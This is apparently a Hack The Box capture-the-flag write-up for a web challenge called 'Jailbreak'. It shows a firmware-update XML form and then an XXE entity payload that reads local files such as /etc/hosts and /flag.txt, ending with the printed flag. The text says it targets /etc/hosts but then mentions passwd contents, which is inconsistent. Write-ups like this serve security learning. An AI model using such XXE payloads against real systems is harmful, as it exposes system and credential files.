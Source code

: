 # Jailbreak - Web

## Context

Given access to a webpage spawned by HTB docker. 

## Solution

Navigating through the webpage, on the ROM page, we see the option to submit XML code for a firmware update:

```xml
<FirmwareUpdateConfig>
    <Firmware>
        <Version>1.33.7</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```

Pressing the submit button displays the following output on screen: 

```
Firmware version 1.33.7 update initiated.
```

Reading through the XML code provided, we can see that the value `1.33.7` is stored in the `<Version>` tag under `<Firmware>`.

I then experimented with executing an XXE attack in BurpSuite's Repeater to find the flag:

Inserted XML Entity containing first attempt payload:

```
  <!DOCTYPE FirmwareUpdateConfig [
    <!ENTITY xxe SYSTEM "/etc/hosts">
]>
```

xxe1

Success! By replacing the version with the entity payload, I can see that the webpage is printing the contents of the passwd file from the hosting system. I tried a few more paths before realising the flag could simply be found by setting the payload to `/flag.txt`:

xxe2

**HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_e34d5ec1334f7f5da949bccadd8a7550}**




